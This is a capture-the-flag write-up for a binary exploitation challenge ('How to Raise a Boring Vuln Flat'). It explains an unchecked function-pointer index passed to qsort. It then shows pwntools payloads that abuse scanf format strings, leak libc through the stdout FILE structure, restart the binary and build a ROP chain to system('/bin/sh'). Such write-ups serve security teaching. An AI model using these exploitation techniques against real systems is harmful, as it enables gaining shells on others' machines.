

# How to Raise a Boring Vuln Flat

### Description:
#### Exploiting programs is just a game. Connect at `nc litctf.org 31775`.  

### First look:

The challenge prompts us for an array of numbers with an arbitrary size:

```bash
$ ./bflat
How to raise a boring vuln.

How many ints?
3
Input ints (separate by space):
1 2 3
```

It then asks us to choose between two ways to sort the array and exits:

```bash
Input sort type (1 = forward, 2 = reverse):
2
Sorted array:
3 2 1 

Bye.
```

### Vulnerability:

If we take a look at the decompiled program we can see that the comparison functions are stored inside a global two-element array, furthermore it doesn't perform any bounds check on our provided index.

```c
pwndbg> x/2a &cmps
0x555555558010 <cmps>:	0x555555555209 <cmp_int>	0x555555555250 <cmp_int_rev>
```

```c
puts("Input sort type (1 = forward, 2 = reverse):");
__isoc99_scanf("%d",&type);
qsort(buf,(long)num,4,cmps[type + -1]);
```

As the array `cmps` is stored inside the `.data` segment of the program we can use any relatively adjacent pointer as the comparison function for the `qsort` function.

We can also notice how we're able to control the first 2 arguments of the function, as it will compare 2 integers from the array.

Some interesting targets are the got functions, more specifically i used the `scanf` function.   

### Solution:

We can use `scanf` as our comparison function by using `-7` as our index, we can then craft an array by writing our format strings as numbers, note that they will be stored consecutively, so we can split a single format string in multiple numbers.

```py
payload = bstr(u32(b"%157")) + b" "
payload += bstr(u32(b"$s\0\0")) + b" "
payload += bstr(u32(b"$s\0\0")) + b" "
payload += bstr(u32(b"%186")) + b" "
payload += bstr(u32(b"$10c")) + b" "
```

This payload is intended to call `scanf` two times with two different format strings:

```c
scanf("%157$s")

scanf("%186$10c")
```

`%157$s` will write on `_IO_2_1_stdout_` which is present on the stack thanks to previous calls to puts. 
We'll be doing a partial overwrite on the FILE structure with this payload:

```py
p64(0xfbad1887)+p64(0)*3 # + a null byte which is the \n of sendline()
```

Basically this will inject a null-byte on the fifth field of the FILE struct, `_IO_write_base`, which is used to determine the lenght of the stdout buffer, by injecting a null byte we're effectively expanding this buffer which will make the next call to puts (or any other function that uses the stdout struct) dump way more bytes than intended.  

```bash
Input sort type (1 = forward, 2 = reverse):
D\x86\x7f\xcev\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0x\xcev\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00
```

Due to the `setbuf(stdout, 0)` call at the beginning of the binary, the buffer of the file struct wont be located inside the heap, but inside the file struct iself, which in turn is inside the libc. 
(That call is meant to disable buffering for file structs, but internally they will still use an 8-bytes long buffer inside the struct itself).

All of this means that we'll get a libc leak, yay!

However we still need a way to restart the binary, which is where the second call to `scanf` comes in.

`%186$10c` will write on the return pointer of `scanf`, which is an address of the binary, at this point we still dont know the base address of the binary, but we can once again perform a partial overwrite on this address to call the `_start` function.

```py
payload = b"A"*7 + b"\x20\x01"
```

By using this as our payload, coupled with using `%10c` instead of `%s`, we can avoid the terminating null-byte.

Note that as we don't know the base address of the binary we need to bruteforce the 4th less significant nibble, which makes our exploit have an 1/16 success rate.

After successfully restarting the binary we can repeat the steps to overwrite the return pointer, this time however can craft a fully-fledged ropchain thanks to our libc leak.

```py
r.sendline(b"2")

payload = bstr(u32(b"%158")) + b" "
payload += bstr(u32(b"$s\0\0")) + b" "
r.sendline(payload)
r.sendline(b"-7")

rop = ROP(libc)
payload = b"A"*8 + p64(rop.rdi.address) + p64(libc.binsh()) + p64(rop.ret.address) + p64(libc.sym.system)

r.sendline(payload)
```

Solve script: [solve.py](solve.py)

Flag: ```LITCTF{k4t0u_4ls0_l34rns_t0_pr0gram}```